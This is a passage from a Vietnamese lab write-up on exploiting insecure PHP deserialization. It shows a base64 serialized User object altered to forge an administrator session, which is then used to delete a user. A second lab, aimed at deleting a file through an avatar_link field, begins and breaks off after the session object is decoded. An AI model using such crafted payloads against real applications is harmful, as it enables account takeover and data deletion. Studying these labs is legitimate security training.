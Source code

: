 ```

// $a= "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJuNGF1ampocms1eHhyZzA0a3BrMmVzdXIzN3A0eWUzOCI7fQ==";

// $a = base64_decode($a);

// $b= unserialize($a);

// print_r($b);

--> Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
?>
```

- Thay session và ta nhận được phiên admin
- ![image](https://hackmd.io/_uploads/B14BNrKA6.png)

- ![image](https://hackmd.io/_uploads/HJvwNrYRa.png)

- Truy cập admin và xóa `carlos` thui :-1:  hihi
- ![image](https://hackmd.io/_uploads/H149ErtAa.png)

- ![image](https://hackmd.io/_uploads/SkQiVBY0T.png)

## Lab: Using application functionality to exploit insecure deserialization

- Đề bài yêu cầu chúng ta như sau:
- ![image](https://hackmd.io/_uploads/HJye_rYRT.png)

- Có thể thấy bài lab yêu cầu chúng ta lợi dụng serialize để xóa file morale.txt nằm trong thư mục home của user carlos.

- Bắt đầu thui nào:>

- ![image](https://hackmd.io/_uploads/S1e4tHKAT.png)

- Bài này có chức năng thay đổi email, upload avatar và xóa tài khoản bây giờ thử xóa thử xem nhưng ta bắt request nha:>
- ![image](https://hackmd.io/_uploads/HJpYFHYAT.png)

- Khi mà xóa thì mình lại gửi 1 serial đã được base64 lên sever để xóa, lợi dụng thuộc tính avatar link để xóa dữ liệu lưu trữ trên sever nha.

```
<?php


$a= "Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJvYjRuZmRmZTVodHZ3dXlrcG4wenlrYnZqaDY0NXV4dyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d";

$a = base64_decode($a);

$b= unserialize($a);

print_r($b);

---> 
__PHP_Incomplete_Class Object
(
    [__PHP_Incomplete_Class_Name] => User
    [username] => wiener
    [access_token] => ob4nfdfe5htvwuykpn0zykbvjh645uxw
    [avatar_link] => users/wiener/avatar
)
```